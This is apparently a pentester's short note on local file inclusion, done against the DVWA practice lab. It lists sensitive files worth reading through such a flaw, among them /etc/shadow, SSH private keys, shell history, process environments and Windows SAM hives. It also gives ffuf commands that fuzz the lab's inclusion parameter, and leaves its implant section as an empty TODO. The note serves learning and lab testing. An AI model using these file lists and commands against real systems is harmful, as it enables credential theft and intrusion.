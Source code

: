 # Manual

## Enumeration

### Cross Platform

Check for `disable_functions`.

```
phpinfo.php
```

### Linux

```
/etc/group
/etc/shadow
/home/<username>/.ssh/id_rsa
/root/.ssh/id_rsa
/etc/crontab
/home/<username>/.bash_history

/etc/os-release

/etc/hosts
/etc/resolv.conf
/proc/net/tcp
/proc/net/udp
/proc/net/arp
/proc/net/dev

/etc/ssh/sshd_config

/proc/self/cmdline
/proc/<pid>/cmdline

/proc/self/environ
/proc/<pid>/environ

/proc/self/cwd
/proc/<pid>/cwd

/proc/self/fd/<pid>

/proc/self/stat
/proc/self/status
/proc/mounts
```

```
$ ffuf -u "http://dvwa.local/dvwa/vulnerabilities/fi/?page=FUZZ" -b "PHPSESSID=<PHP_cookie_session_ID>;security=low" -c -w <(for i in $(seq 10000); echo "/proc/$i/cmdline") -mc 200


$ ffuf -u "http://dvwa.local/dvwa/vulnerabilities/fi/?page=FUZZ" -b "PHPSESSID=<PHP_cookie_session_ID>;security=low" -c -w <(for i in $(seq 10000); echo "/proc/$i/fd") -mc 200
```

### Windows

```
/WINDOWS/repair/sam
/WINDOWS/repair/system
```

## Exploit

### Spawn Implant

TODO: Upload any file extension to load a php implant

```

```

---
## References

- [[02 - File Inclusion Payloads|File Inclusion Payloads]]

- [Hacking Articles: Comprehensive Guide on Local File Inclusion (LFI)](https://www.hackingarticles.in/comprehensive-guide-to-local-file-inclusion/)

- [File Inclusion (Local/Remote)](https://notes.defendergb.org/web-sec/vuln/lfi-rfi)
